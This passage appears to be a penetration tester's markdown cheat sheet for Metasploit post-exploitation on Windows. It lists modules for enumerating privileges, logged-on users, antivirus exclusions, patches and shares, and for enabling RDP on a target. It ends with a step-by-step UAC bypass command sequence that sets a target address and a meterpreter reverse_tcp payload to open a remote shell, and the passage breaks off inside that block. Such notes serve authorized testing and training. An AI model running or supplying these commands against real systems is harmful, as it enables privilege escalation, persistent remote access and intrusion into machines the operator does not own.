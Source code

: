 *Results of these commands are stored in `loot`*
## Common post exploitation modules
- Change meterpreter architecture
	```
	use post/windows/manage/archmigrate
	```
- Privilege enumeration
	```
	post/windows/gather/win_privs
	```
- Logged on users
	```
	post/windows/gather/enum_logged_on_users
	```
- Virtual environment detection
	```
	post/windows/gather/checkvm
	```
- Installed applications
	```
	post/windows/gather/enum_applications
	```
- AV detection
	```
	post/windows/gather/enum_av_excluded
	```
- Enumerate computers in the same domain
	```
	post/windows/gather/enum_computers
	```
- Check applied patches
	```
	post/windows/gather/enum_patches
	or open a shell and run `systeminfo`
	```
- Check shares
	```
	post/windows/gather/enum_shares
	```
- Enable RDP on target
	```
	post/windows/manage/enable_rdp
	```

## UAC Bypass
- By injecting a trusted publisher certificate through process injection in the memory
- Get a meterpreter shell and then use the UAC bypass module
	```
	exploit/windows/local/bypassuac_injection
	```
- Example
	```
	setg rhosts 10.3.22.68
	run
	sysinfo
	search bypassuac
	use exploit/windows/local/bypassuac_injection
	show options 
	set session 1
	set target Windows\ x64 
	set payload windows/x64/meterpreter/reverse_tcp
	run
